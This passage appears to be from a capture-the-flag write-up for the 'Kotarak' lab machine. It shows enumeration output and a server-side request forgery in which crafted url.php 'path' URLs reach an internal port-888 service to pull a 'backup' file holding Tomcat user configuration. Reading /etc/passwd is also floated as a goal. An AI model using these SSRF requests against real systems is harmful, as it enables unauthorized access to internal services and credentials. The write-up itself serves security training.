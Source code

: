 ```html
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1"/>                                                         
<title>Simple File Viewer</title>                                                                                                 
                                                                                                                                  
    <link href="inc/default.css" rel="stylesheet" type="text/css" />                                                              
    <!--[if lt IE 7.]>                                                                                                            
    <script defer type="text/javascript" src="inc/js/pngfix.js"></script>                                                         
    <![endif]-->                                                                                                                  
                                                                                                                                  
</head>                                                                                                                           
<body>
<div id="contents">
        <h1>
                Simple File Viewer      </h1><table width="100%" border="0" cellpadding="5" cellspacing="0" class="tableBorder">
      <tr>
        <td width="35" valign="bottom" class="path">Path: </td>
        <td>
  ...
```
Port:3306 -- mysql
```
5.7.19-0ubuntu0.16.04.1^`O+}R^7\oyE|X.=Bmysql_native_passwordot packets out of order
```
Of these, the file viewer is of interest, particularly in how its grabbing local files. Perhaps we can trick it to expose `/etc/passwd` or another sensitive file? The simple file viewer lists the files `backup` `blah` `js` `on` `tetris.c` `thing` and `this`. `backup` sounds important.

When manually clicking from the local url, the page hands a `GET` to `url.php`, meaning we must slightly modify our attack to allow for the `doc` field to be filled in.

> http://kotarak.htb:60000/url.php?doc=tetris.c

Try asking for `http://127.0.0.1:888/url.php?doc=backup` which 404s. This is because the `url.php` is coming from the server on port 60000 and not the server on `127.0.0.1:888`. Since we know the base dir loads as `http://kotarak.htb:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A888%2F` we can simply remove the extra `url.php` to load any page we want. Try removing the `url.php` piece for the url `http://127.0.0.1:888/?doc=backup`.

> http://kotarak.htb:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A888%2F%3Fdoc%3Dbackup

tomcat credentials! this looks to be the servers `tomcat-users.xml`
```xml
<?xml version="1.0" encoding="UTF-8"?>
...
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
```